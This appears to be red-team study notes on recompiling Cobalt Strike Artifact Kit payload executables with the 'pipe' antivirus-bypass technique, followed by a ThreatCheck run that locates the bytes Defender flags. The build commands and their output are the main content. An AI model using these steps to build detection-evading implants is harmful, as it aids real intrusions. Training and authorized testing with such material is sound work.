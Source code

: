 You're encouraged to make modifications to this code and use them in your
engagements. Do not redistribute this source code. It is not open source. It
is provided as a benefit to licensed Cobalt Strike users.

# License

This code is subject to the end user license agreement for Cobalt Strike. The
complete license agreement is at:

https://www.cobaltstrike.com/license







# Artifact Kit Rebuild Begin

`./build.sh pipe VirtualAlloc 310272 5 false false none /mnt/c/Tools/cobaltstrike/artifacts`
this is essentially just compiling all the executables, in order to modify the code the original c file named `patch.c` is located in `C:\Tools\cobaltstrike\arsenal-kit\kits\artifact\src-common\patch.c

- executed in `WSL` on Attacker Desktop
- utilized to recompile all executables
```bash
C:\Tools\cobaltstrike\arsenal-kit\kits
ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/artifact [124]>
./build.sh pipe VirtualAlloc 310272 5 false false none /mnt/c/Tools/cobaltstrike/artifacts
[Artifact kit] [+] You have a x86_64 mingw--I will recompile the artifacts
[Artifact kit] [*] Using allocator: VirtualAlloc
[Artifact kit] [*] Using STAGE size: 310272
[Artifact kit] [*] Using RDLL size: 5K
[Artifact kit] [*] Using system call method: none
[Artifact kit] [+] Artifact Kit: Building artifacts for technique: pipe
[Artifact kit] [*] Recompile artifact32.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32svc.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32big.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32big.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32svcbig.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64.x64.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64svc.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64big.x64.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64big.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64svcbig.exe with src-common/bypass-pipe.c
[Artifact kit] [+] The artifacts for the bypass technique 'pipe' are saved in '/mnt/c/Tools/cobaltstrike/artifacts/pipe'
```
#### Threatcheck
in windows powershell on Attacker Desktop Run
```powershell
PS C:\Users\Attacker> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Tools\cobaltstrike\artifacts\pipe\artifact64svcbig.exe
[*] C:\Temp doesn't exist. Creating it...
[+] Target file size: 329728 bytes
[+] Analyzing...
[*] Testing 164864 bytes
[*] Threat found, splitting
[*] Testing 82432 bytes
[*] Threat found, splitting
[*] Testing 41216 bytes
[*] Threat found, splitting
[*] Testing 20608 bytes
```